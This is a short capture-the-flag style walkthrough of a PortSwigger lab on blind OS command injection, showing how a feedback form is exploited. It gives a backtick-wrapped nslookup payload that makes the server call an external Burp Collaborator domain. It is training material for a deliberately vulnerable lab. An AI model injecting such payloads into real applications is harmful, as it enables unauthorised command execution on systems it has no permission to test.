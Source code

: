 
# Blind OS command injection with out-of-band interaction

This lab contains a blind OS command injection vulnerability in the feedback function.

The application executes a shell command containing the user-supplied details. The command is executed asynchronously and has no effect on the application's response. It is not possible to redirect output into a location that you can access. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the blind OS command injection vulnerability to issue a DNS lookup to Burp Collaborator.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.


---------------------------------------------

References: 

- https://portswigger.net/web-security/os-command-injection

- https://book.hacktricks.xyz/pentesting-web/command-injection



![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20interaction/1.png)

---------------------------------------------

There is a function to submit feedback:



![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20interaction/2.png)

In this case the command injection is achieved with the payload:

```
`nslookup 7s0qd0oqa0r71b9pewc0nu7a41asynmc.oastify.com`
```




![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20interaction/3.png)




![img](images/Blind%20OS%20command%20injection%20with%20out-of-band%20interaction/4.png)